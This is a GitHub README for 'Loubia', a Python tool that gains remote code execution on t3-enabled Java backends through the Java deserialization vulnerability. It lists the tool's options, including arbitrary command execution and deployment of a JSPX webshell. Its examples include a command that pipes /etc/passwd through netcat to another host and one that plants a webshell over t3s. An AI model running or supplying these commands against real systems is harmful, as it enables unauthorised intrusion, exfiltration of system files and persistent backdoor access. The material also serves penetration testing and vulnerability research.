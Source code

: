 # NyaMeeEain
Python script that achieves remote code execution on t3 enabled backends. This is possible thanks to (or because of) the Java Unserialize vulnerability.
# Usage
Below is the help of Loubia showing its awesome functionalities:

		Usage: loubia.py hostname port [options]
		Options:
		  --version             show program's version number and exit
		  -h, --help            show this help message and exit
		  -c PAYLOAD, --cmd=PAYLOAD
		                        Command to execute
		  -o OS, --os=OS        Target operating system (unix/win). Default is unix
		  -l SHELL, --shell=SHELL
		                        shell to use (sh/bash). Default is sh
		  -s, --ssl             Use t3s protocol. Default : false
		  -p PROTOCOL, --protocol=PROTOCOL
		                        SSL protocol to use (sslv3/tlsv1/best). Default is
		                        sslv3
		  -w, --webshell        Deploy a jspx webshell
		  -u URL, --url=URL     Deploy the jspx webshell to the target URL path
		                        (webshell name will be URL_.jspx)
		  -v, --verbose         Print verbose output. Default : false

Examples:

Disclosing /etc/passwd to a local listening socket

		./loubia.py 192.168.1.2 7001 -c "cat /etc/passwd | nc 192.168.1.3 6666"
								
Deploying a webshell using bash on t3s

		./loubia.py 192.168.1.2 7002 -s -l bash -w

# Details
For more details see this post http://wtfsec.blogspot.fr/2016/03/loubia-exploitation-of-java-unserialize.html
